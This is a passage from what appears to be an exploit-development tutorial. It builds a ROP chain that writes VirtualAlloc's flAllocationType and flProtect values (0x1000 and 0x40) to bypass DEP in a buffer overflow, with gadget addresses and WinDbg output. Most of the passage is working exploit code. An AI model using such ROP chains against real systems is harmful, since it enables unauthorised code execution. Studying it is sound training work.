 ```py
0x6d9cb59c,  # mov dword ptr [ecx], eax; ret;
...
```

And here we have the instructions being executed.

![](https://0x4rt3mis.github.io/assets/img/osed/2023-01-31-Buffer%20Overflow-DEP/3.gif)

# flProtect - 00000040

The last one is the flProtect. Where we'll put 0x40 on 0x51515151.

```
0:000> ?0x0 - 0x40
Evaluate expression: -64 = ffffffc0
```

Here we did the same thing we did before

```
0x68aca037,  # inc ecx; ret;
0x68aca037,  # inc ecx; ret;
0x68aca037,  # inc ecx; ret;
0x68aca037,  # inc ecx; ret;
0x61b6122a,  # pop eax; ret;
0xffffffc0,  # -0x40
0x699ef43a,  # neg eax; ret;
0x6d9cb59c,  # mov dword ptr [ecx], eax; ret;
```

```py
...
##############
# -> flAllocationType (0x49494949)
##############
## Increase 4 bytes in ECX
0x68aca037,  # inc ecx; ret;
0x68aca037,  # inc ecx; ret;
0x68aca037,  # inc ecx; ret;
0x68aca037,  # inc ecx; ret;
## PUT -0x1001 in EAX
0x61b6122a,  # pop eax; ret;
0xffffefff,  # -0x1001
## NEG EAX, to become 1001
0x699ef43a,  # neg eax; ret;
## DEC EAX, to become 1000
0x68a84305,  # dec eax; ret;
## Write on 0x49494949 (ECX)
0x6d9cb59c,  # mov dword ptr [ecx], eax; ret;

##############
# -> flProtect (0x51515151)
##############
## Increase 4 bytes in ECX
0x68aca037,  # inc ecx; ret;
0x68aca037,  # inc ecx; ret;
0x68aca037,  # inc ecx; ret;
0x68aca037,  # inc ecx; ret;
## PUT -0x40 in EAX
0x61b6122a,  # pop eax; ret;
0xffffffc0,  # -0x40
## NEG EAX, to become 40
0x699ef43a,  # neg eax; ret;
## Write on 0x51515151 (ECX)
0x6d9cb59c,  # mov dword ptr [ecx], eax; ret;
```